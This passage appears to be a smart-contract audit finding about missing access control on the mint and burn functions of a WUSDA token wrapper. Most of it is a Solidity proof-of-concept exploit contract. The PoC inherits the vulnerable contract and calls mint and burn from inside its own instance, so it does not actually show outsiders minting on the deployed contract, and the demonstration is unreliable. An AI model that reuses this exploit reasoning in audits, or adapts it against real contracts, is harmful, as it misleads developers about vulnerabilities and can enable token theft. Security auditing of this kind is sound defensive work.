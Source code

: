 Proof-of-Concept (PoC) Exploit Scenario:
An attacker can exploit the missing access control by calling the mint or burn functions without actually depositing the correct amount of USDa or holding enough wUSDA tokens, respectively.

Below is a PoC to demonstrate this vulnerability:



// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity ^0.8.9;

// Import the vulnerable contract
import "./WUSDA.sol";

// Inherit from the vulnerable contract
contract ExploitWUSDA is WUSDA {
    // Constructor
    constructor(address _usdaToken, string memory _name, string memory _symbol)
        WUSDA(_usdaToken, _name, _symbol)
    {}

    // Function to exploit the vulnerability
    function exploitMint() external {
        // Set the amount of wUSDA tokens to mint (adjust the value accordingly)
        uint256 wUSDAAmountToMint = 1000;
        
        // Call the vulnerable mint function without actually depositing USDa
        // This will result in the creation of wUSDA tokens without a corresponding deposit
        mint(wUSDAAmountToMint);
    }

    // Function to exploit the vulnerability
    function exploitBurn() external {
        // Set the amount of wUSDA tokens to burn (adjust the value accordingly)
        uint256 wUSDAAmountToBurn = 500;

        // Call the vulnerable burn function without actually releasing USDa
        // This will result in the burning of wUSDA tokens without releasing the corresponding USDa
        burn(wUSDAAmountToBurn);
    }
}